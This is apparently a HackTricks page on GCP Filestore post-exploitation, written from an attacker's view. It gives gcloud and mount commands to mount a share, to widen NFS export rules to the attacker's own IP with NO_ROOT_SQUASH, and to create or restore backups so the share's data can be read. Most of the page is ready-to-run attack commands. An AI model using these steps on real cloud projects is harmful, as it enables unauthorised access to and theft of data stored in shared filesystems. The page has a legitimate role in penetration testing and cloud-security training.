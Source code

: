 # GCP - Filestore Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Filestore

For more information about Filestore check:

{{#ref}}
../gcp-services/gcp-filestore-enum.md
{{#endref}}

### Mount Filestore

A shared filesystem **might contain sensitive information** interesting from an attackers perspective. With access to the Filestore it's possible to **mount it**:

```bash
sudo apt-get update
sudo apt-get install nfs-common
# Check the share name
showmount -e <IP>
# Mount the share
mkdir /mnt/fs
sudo mount [FILESTORE_IP]:/[FILE_SHARE_NAME] /mnt/fs
```

To find the IP address of a filestore insatnce check the enumeration section of the page:

{{#ref}}
../gcp-services/gcp-filestore-enum.md
{{#endref}}

### Remove Restrictions and get extra permissions

If the attacker isn't in an IP address with access over the share, but you have enough permissions to modify it, it's possible to remover the restrictions or access over it. It's also possible to grant more privileges over your IP address to have admin access over the share:

```bash
gcloud filestore instances update nfstest \
    --zone=<exact-zone> \
    --flags-file=nfs.json

# Contents of nfs.json
{
  "--file-share":
  {
    "capacity": "1024",
    "name": "<share-name>",
    "nfs-export-options": [
      {
        "access-mode": "READ_WRITE",
        "ip-ranges": [
          "<your-ip-private-address>/32"
        ],
        "squash-mode": "NO_ROOT_SQUASH",
        "anon_uid": 1003,
        "anon_gid": 1003
      }
    ]
  }
}
```

### Restore a backup

If there is a backup it's possible to **restore it** in an existing or in a new instance so its **information becomes accessible:**

```bash
# Create a new filestore if you don't want to modify the old one
gcloud filestore instances create <new-instance-name> \
    --zone=<zone> \
    --tier=STANDARD \
    --file-share=name=vol1,capacity=1TB \
    --network=name=default,reserved-ip-range=10.0.0.0/29

# Restore a backups in a new instance
gcloud filestore instances restore <new-instance-name> \
    --zone=<zone> \
    --file-share=<instance-file-share-name> \
    --source-backup=<backup-name> \
    --source-backup-region=<backup-region>

# Follow the previous section commands to mount it
```

### Create a backup and restore it

If you **don't have access over a share and don't want to modify it**, it's possible to **create a backup** of it and **restore** it as previously mentioned:

```bash
# Create share backup
gcloud filestore backups create <back-name> \
    --region=<region> \
    --instance=<instance-name> \
    --instance-zone=<instance-zone> \
    --file-share=<share-name>

# Follow the previous section commands to restore it and mount it
```

{{#include ../../../banners/hacktricks-training.md}}





